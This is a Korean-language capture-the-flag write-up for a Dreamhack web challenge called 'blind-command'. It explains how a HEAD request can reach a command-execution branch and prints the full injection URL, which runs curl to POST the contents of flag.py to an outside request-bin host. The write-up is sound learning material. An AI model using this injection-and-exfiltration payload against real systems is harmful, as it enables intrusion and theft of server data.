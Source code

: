 # blind-command

* 문제 Description
  * Read the flag file XD

# 문제 분석 및 해결
* 분석
  * 접속 페이지에 대한 분석
    * 접속 정보에 들어가면 특별한게 나오지는 않음
      * button이나 tab등 UI기능이 따로 있지는 않음
    * ?cmd=[cmd] 라고 나옴
      * cmd에 대한 정보를 parameter로 넘기는거로 보임
  * source code 분석
    * parameter로 받아온 cmd값을 기준으로 분기 logic이 있음
      * cmd = request.args.get('cmd', '')
      * cmd 값이 없는 경우
        * return "?cmd=[cmd]"
      * method가 get으로 들어온 경우
        * return ""
      * 이외의 경우에 cmd 명령어 수행

* 해결
  * GET Method를 쓰지 못하면 post로만 해야되나 라고 먼저 생각을 했음
    * 이번에 알게된 정보
      * HTTP Method로 OPTIONS를 사용하여 request를 보내면 해당 url에서 사용 가능한 정보들이 response의 header에 담겨져 온다.
      * HEAD Method는 GET과 동일한 결과값을 반환받는 Method이지만, \
        response의 body는 담겨있지 않고, header결과값만 반환받는다.
      * request bin은 특정 url로 들어오는 request의 내용을 편리하게 확인할 수 있도록 제공하는 것 
  * 위의 문제에서 사용하게 되면
    * allow -> HEAD, OPTIONS, GET
  * 결국 OPTIONS는 사용법 찾을때만 사용할 수 있고, GET은 server 내부 logic에서 걸러지게 됨
    * 사실 근본적으로는 GET, POST, HEAD등 HTTP Method를 사용하여 request를 보내게 되면, \
      OPTIONS request를 server로 먼저 보내서 client가 요청한 request가 server에서 allow하는 확인 작업을 거치게 됨
  * HEAD Method를 사용하기로 함
    * 우리가 HEAD Method를 사용하게 되면, cmd명령어로 수행되는 결과물을 client로 바로 return 받는것이 아니라, \
      client가 아닌 다른 client에서 결과값을 확인해야 함
    * dreamhack에서 제공하는 request bin을 이용하여 결과값을 확인해야 함
  * HEAD Method를 사용하기 위해 postman을 이용하여 request를 보내기로 함
  * postman(HEAD request server로 전달) -> server에서 flag값을 찾아서 request bin으로 request를 보냄 -> request bin에서 request 내용을 확인 
  * postman에서 요청한 request uri 
    * http://host3.dreamhack.games:24399/?cmd=curl%20-X%20POST%20-d%20%22$(cat%20flag.py)%22%20%22https://efexbri.request.dreamhack.games%22
    * {server 주소}/?cmd={server에서 실행할 명령어}
    * server에서 실행할 명령어 상세
      * curl -X POST -d "$(cat flag.py)" "https://efexbri.request.dreamhack.games"
        * curl -> server http request 명령어
        * -X {Method} -> request HTTP Method 명시
        * -d {data} -> POST 내부 data
          * 위에서는 server cmd창에서 실행한 cat flag.py의 결과 string을 body에 담도록 함
        * "url" -> request를 보낼 주소
          * dreamhack에서 제공하는 request bin의 주소를 사용함
